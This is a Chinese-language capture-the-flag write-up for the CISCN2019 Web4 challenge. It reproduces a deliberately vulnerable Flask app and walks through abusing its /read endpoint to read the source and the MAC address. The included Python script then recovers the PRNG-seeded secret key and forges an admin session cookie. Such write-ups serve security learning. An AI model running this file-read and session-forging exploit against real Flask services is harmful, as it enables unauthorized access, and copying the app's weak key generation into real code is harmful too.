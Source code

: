 # [CISCN2019 华东南赛区]Web4

![image-20210615170704529]([CISCN2019 华东南赛区]Web4/image-20210615170704529.png)

## 解题

访问

```
http://b7ae5d20-38a0-417e-9343-473152b38ae5.node3.buuoj.cn/read?url=/app/app.py
```

可以读取源码

```python
# encoding:utf-8 import re, random, uuid, urllib from flask import Flask, session, request app = Flask(__name__) random.seed(uuid.getnode()) app.config['SECRET_KEY'] = str(random.random()*233) app.debug = True @app.route('/') def index(): session['username'] = 'www-data' return 'Hello World! Read somethings' @app.route('/read') def read(): try: url = request.args.get('url') m = re.findall('^file.*', url, re.IGNORECASE) n = re.findall('flag', url, re.IGNORECASE) if m or n: return 'No Hack' res = urllib.urlopen(url) return res.read() except Exception as ex: print str(ex) return 'no response' @app.route('/flag') def flag(): if session and session['username'] == 'fuck': return open('/flag.txt').read() else: return 'Access denied' if __name__=='__main__': app.run( debug=True, host="0.0.0.0" ) 
```

`session['username'] == 'fuck'`可得到flag，接下来就是要伪造`session`，而伪造`session`或者解密`session`都需要`密钥`，在源码中有密钥的生成方式：

```python
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
```

对于伪随机数，如果`seed`是固定的，生成的随机数是可以预测的，也就是顺序固定的，所以只要知道`seed`的值即可。这里的`seed`使用的`uuid.getnode()`的值，该函数用于获取Mac地址并将其转换为整数。

![1960851-20200819151557743-35242527](C:\Users\ASUS\Desktop\1960851-20200819151557743-35242527.png)

那么就需要读取Mac地址`/sys/class/net/eth0/address`

exp

```python
import flask_session_cookie_manager2
import random
mac = "02:42:ac:10:86:e1"
random.seed(int(mac.replace(":", ""), 16))
for x in range(1000):
    key = str(random.random() * 233)
    result = flask_session_cookie_manager2.FSCM.decode('eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.YMhtFA.btrKxk4Klji0LoZn6bnrH-USGmA', key)
    if 'error' not in result:
        result[u'username'] = 'fuck'
        print flask_session_cookie_manager2.FSCM.encode(key, str(result))
        exit()
```



![image-20210615170621845]([CISCN2019 华东南赛区]Web4/image-20210615170621845.png)